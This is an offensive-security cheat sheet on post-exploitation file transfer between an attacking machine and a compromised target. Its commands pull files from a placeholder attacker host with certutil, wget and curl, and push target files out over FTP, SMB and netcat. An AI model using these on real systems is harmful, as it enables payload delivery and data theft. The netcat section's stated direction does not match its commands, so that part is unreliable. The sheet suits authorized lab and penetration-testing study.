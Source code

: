 # Transfert file between target and attacking machines

## HTTP

### From attack machine to Target

#### Attacking machine

- In kali we can use python `python -m http.server 80`

#### Target machine

- On a win target machine you can access it directly with the browser: `http://IP-ATTACKING-MACHINE/FILE-TO-GET` or you can use certutil.exe `certutil.exe -urlcache http://IP-ATTACKING-MACHINE/FILE-TO-GET file-to-get`
- In a linux target machine you can use `wget http://IP-ATTACKING-MACHINE/FILE-TO-GET` or curl `curl -o FILE-TO-GET http://IP-ATTACKING-MACHINE/FILE-TO-GET`

## FTP

### From attack machine to target

#### Attacking machine

- `python3 -m pyftpdlib -p 21`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file

## SMB

### From Target to attack machine

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`

## Metasploit

### From attack machine to Target

There is an upload and download feature

## SSH (creds needed)

### From attack machine to Target

- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds


## Resources

- [Transfer files (Post explotation) – CheatSheet - PABLO PLAZA MARTÍNEZ](https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)
